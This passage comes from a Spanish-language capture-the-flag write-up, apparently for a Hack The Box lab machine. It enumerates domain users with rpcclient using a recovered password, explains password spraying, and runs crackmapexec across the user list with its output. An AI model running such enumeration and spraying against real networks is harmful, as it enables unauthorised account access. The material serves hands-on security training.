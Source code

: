 ```batch
        logon_count:    0x00000056
        padding1[0..7]...
        logon_hrs[0..21]...
```
Solamente está el usuario administrador, no hay más.

Si quieres, puedes obtener los usuarios fuera de la sesión de **rpcclient**:
```batch
rpcclient -U 'ldap%nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' 10.10.11.174 -c 'enumdomusers'
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[ldap] rid:[0x450]
user:[support] rid:[0x451]
user:[smith.rosario] rid:[0x452]
user:[hernandez.stanley] rid:[0x453]
user:[wilson.shelby] rid:[0x454]
user:[anderson.damian] rid:[0x455]
user:[thomas.raphael] rid:[0x456]
user:[levine.leopoldo] rid:[0x457]
user:[raven.clifton] rid:[0x458]
user:[bardot.mary] rid:[0x459]
user:[cromwell.gerard] rid:[0x45a]
user:[monroe.david] rid:[0x45b]
user:[west.laura] rid:[0x45c]
user:[langley.lucy] rid:[0x45d]
user:[daughtler.mabel] rid:[0x45e]
user:[stoll.rachelle] rid:[0x45f]
user:[ford.victoria] rid:[0x460]
```
Puedes ocupar el comando **grep** y **tr** para obtener solo los nombres de los usuarios, pero eso ya te lo dejo a ti.

No hemos encontrado nada más, pero podemos probar si de casualidad están usando la misma contraseña para otros usuarios. Esto es algo común que siempre debemos probar.

<h2 id="spraying">Aplicando Password Spraying con crackmapexec, Enumerando Servicio LDAP con ldapsearch y Ganando Acceso a la Máquina</h2>

¿Qué es **Password Spraying**?

| **Password Spraying** |
|:-----------:|
| *Password spraying es una técnica utilizada en ataques de seguridad en la que el atacante intenta acceder a múltiples cuentas de usuario en un sistema o red utilizando contraseñas comunes o débiles, pero de una manera que evita el bloqueo de cuentas por demasiados intentos fallidos.* |

<br>

Probemos esto con la contraseña que tenemos, en los usuarios que encontramos en el **servicio LDAP**:
```bash
crackmapexec smb 10.10.11.174 -u users -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' --continue-on-success
SMB         10.10.11.174    445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.174    445    DC               [-] support.htb\Administrator:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz STATUS_LOGON_FAILURE 
SMB         10.10.11.174    445    DC               [-] support.htb\Guest:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz STATUS_LOGON_FAILURE 
SMB         10.10.11.174    445    DC               [-] support.htb\krbtgt:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz STATUS_LOGON_FAILURE 
SMB         10.10.11.174    445    DC               [+] support.htb\ldap:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz 
SMB         10.10.11.174    445    DC               [-] support.htb\support:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz STATUS_LOGON_FAILURE 
SMB         10.10.11.174    445    DC               [-] support.htb\smith.rosario:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz STATUS_LOGON_FAILURE 
```